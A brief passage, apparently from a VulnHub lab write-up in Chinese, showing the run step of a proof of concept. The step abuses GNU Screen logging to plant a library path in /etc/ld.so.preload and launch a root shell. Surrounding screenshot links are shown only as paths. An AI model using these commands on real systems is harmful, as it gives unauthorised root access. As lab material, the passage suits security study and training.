 运行 poc

```
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
screen -ls
/tmp/rootshell
whoami
```

![img](/Users/liuhanzhe/Documents/fun_blog/docs/security/target/vulnhub/12.png)

![img](/Users/liuhanzhe/Documents/fun_blog/docs/security/target/vulnhub/13.png)

